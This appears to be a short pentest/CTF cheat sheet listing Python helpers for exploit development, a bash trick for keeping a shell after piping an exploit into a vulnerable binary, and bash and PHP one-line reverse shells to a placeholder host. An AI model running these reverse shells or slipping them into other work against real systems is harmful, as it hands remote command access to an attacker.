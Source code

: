 
# Useful Scripts & Commands 🧰

## Commands:

### Python 

1. Print an address in little endian:
`python -c "import struct; print(struct.pack('<I',0xdeadbeef))"`
2. Convert numbers into a string in hex format (0x prefix with zero padding): `"{:#04x}.format(n)"`


### Bash

1. Maintain shell after running an exploiting: `(./exploit | cat ) | ./vuln`
2. Simple Bash revshell: `bash -i >& /dev/tcp/{HOST_IP}/{PORT} 0>&1`

### PHP

1. Oneline revshell: `php -r '$sock=fsockopen("{HOST_IP}",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
